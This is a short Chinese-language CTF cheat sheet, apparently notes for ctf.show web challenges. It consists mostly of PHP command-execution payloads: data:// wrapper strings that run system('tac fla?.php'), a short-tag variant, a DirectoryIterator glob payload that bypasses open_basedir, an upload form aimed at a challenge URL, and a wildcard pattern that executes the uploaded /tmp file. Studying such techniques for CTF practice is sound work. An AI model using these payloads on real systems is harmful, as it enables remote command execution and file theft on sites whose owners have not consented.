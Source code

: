 ## 协议读取

如果题目使用了include类型

```cobol
data://text/plain,<?php system('tac fla?.php');?>
 
data://text/plain;bvase64,base64加密后的命令
```

我们就可以使用伪协议来执行命令

### 绕过open_basedr

```php
c=?><?php $a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');} exit(0);?>
```

## 短开表达式

```cobol
data://text/plain,<?=system('tac fla?.?hp');?>
```

## 通过POST文件 包含/tmp/临时文件

```cobol
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>POST数据包POC</title>
</head>
<body>
<form action="http://cd3eb1d9-31ec-4644-b057-c38153f6a911.challenge.ctf.show/" method="post" enctype="multipart/form-data">
<!--链接是当前打开的题目链接-->
    <label for="file">文件名：</label>
    <input type="file" name="file" id="file"><br>
    <input type="submit" name="submit" value="提交">
</form>
</body>
</html>
```

这里向网站发包

然后通过正则匹配获取到文件

```ruby
?c=.+/???/????????[@-[]
```
